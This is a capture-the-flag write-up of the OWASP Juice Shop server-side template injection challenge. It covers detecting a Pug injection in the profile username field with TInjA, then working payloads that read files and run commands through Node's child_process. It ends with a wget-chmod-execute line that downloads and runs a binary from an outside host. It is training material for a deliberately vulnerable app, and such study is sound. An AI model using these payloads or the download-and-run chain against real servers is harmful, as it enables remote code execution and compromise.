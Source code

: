 ## SSTi

**Category:** Injection

**Difficulty:** 6/6

**Challenge Description:** Infect the server with juicy malware by abusing arbitrary command execution.

## Approach

### Finding Template generated Pages

In order to find a page vulnerable to server-side template injection I had some luck, because I am quite familiar with Angular. The reason why this was helpful is, that the hashtag in the URL is Angular's way to display routes:

![Angular URL](/images/angular-url.png)

Some pages which don't contain a hashtag, are very likely not generated by Angular. Some examples are the /ftp endpoint, but also the /profile endpoint:

![Non Angular URL](/images/template-url.png)

Since /ftp does not contain any user-controlled I decided to focus on /profile.

### Trying my Luck with TInjA

TInjA is a tool, which checks for possible SSTI. It was my first time working with this tool, so I took me quite some research and playing around with the tool until I got a useful result.

But finallly I was able to identify the template engine being used.

```
┌──(orb1t4l㉿elysium)-[~/OWASP/juice-shop/ssti]
└─$ tinja jsonl -j profile_post.jsonl
TInjA v1.1.4 started at 2024-09-25_20-33-58

Analyzing URL(1/1): http://192.168.0.1:3000/profile
===============================================================
Status code 200
Analyzing post parameter  username  =>  test
[*] Value  KM7KDRMKYGB3F6FB  of POST parameter  username  is being reflected 2 time(s) in the response body

[!] The polyglot <%'${{/#{@}}%>{{ triggered an error: Status Code 500
[!] The polyglot p ">[[${{1}}]] was rendered in a modified way: [p &quot;&gt;[[${{1}}]]] (HTML encoded)
[*] The polyglot p ">[[${{1}}]] returned the response(s) [unmodified p &quot;&gt;[[${{1}}]]]
[!] The polyglot <%=1%>@*#{1} was rendered in a modified way: [<%=1%>@*1]
[!] The polyglot <%=1%>@*#{1} was rendered in a modified way: [&lt;%=1%&gt;@*#{1}] (HTML encoded)
[*] The polyglot <%=1%>@*#{1} returned the response(s) [<%=1%>@*1 &lt;%=1%&gt;@*#{1}]
[*] The polyglot {##}/*{{.}}*/ returned the response(s) [unmodified unmodified]

A template injection was detected and the template engine is now being identified.
[!] The polyglot a">##[[${1}]] triggered an error: Status Code 500

Verifying the template injection by issuing template expressions tailored to the specific template engine.
[*] Verifying Pug (Inline).
[*] The polyglot #{7*7} returned the response(s) [unmodified]
[+] A template engine was detected, but could not be identified (certainty: Low)

===============================================================

Successfully finished the scan
[+] Suspected template injections: 1
[+] 0 Very High, 0 High, 0 Medium, 1 Low, 0 Very Low certainty

Duration: 767.866151ms
Average polyglots sent per user input: 5
```

The POST request I used was:

```json
{
  "request": {
    "method": "POST",
    "endpoint": "http://192.168.0.1:3000/profile",
    "body": "username=test",
    "headers": {
      "Cookie": "token=ey..."
    }
  }
}
```

What we have so far is, that the username input field is vulnerable to SSTI and Pug is used as the template engine.

Since it was my first time using this tool, I decided to verify it per hand.

First I changed my username to the polyglot (`a">##[[${1}]]`), which led to the following error page:

![SSTI Pug Error](/images/ssti-pug-error.png)

The last step verifying the SSTI was to change the username to something, that the template engine would actually process. As you can see, the value `#{6*6}` was processed to 36.

![SSTI Verification](/images/ssti-verified.png)

### Crafting the right Payload

Building a working payload definitely took more time (hours...) than expected. After trying some payload from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) and [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) I had no other option than return to building the payload by myself.

I started with the [SSTI Exploitation Guide](https://portswigger.net/web-security/server-side-template-injection/exploiting) from PortSwigger. I started simply by trying to access objects used in the mentioned payload sources from above like `root` and `global` to see if they are already loaded. After some time I finally made some progress and found out, that I could access the main module (entry point of the application) of NodeJS.

![SSTI NodeJS MainModule](/images/ssti-mainmodule-access.png)

A great help here, was the `Object.getOwnPropertyNames()` function of NodeJS, because it shows all properties of an object.

My next goal was to check, if I could read from the filesystem, which was successfull with `#{global.process.mainModule.require('fs').readdirSync('.')}`:

![SSTI Successfull Read](/images/ssti-successfull-read.png)

### RCE with SSTI

Since I already knew, that I could use `require()`, it was time to finally a RCE. The first step was to execute the `whoami` command, which I did with `#{global.process.mainModule.require('child_process').execSync('whoami')}`. I wasted some time on trying with just the `exec()` function, but this won't return the actual result, since it is a asynchronous function.

![SSTI RCE whoami](/images/ssti-rce-whoami.png)

To solve the challenge it is necessery to download and execute the *juicy malware*. The command I used for this is `wget https://github.com/juice-shop/juicy-malware/raw/master/juicy_malware_linux_amd_64 && mv juicy_malware_linux_amd_64 malware && chmod +x malware && ./malware`. In order to not freeze the web server you should use `exec()` here.

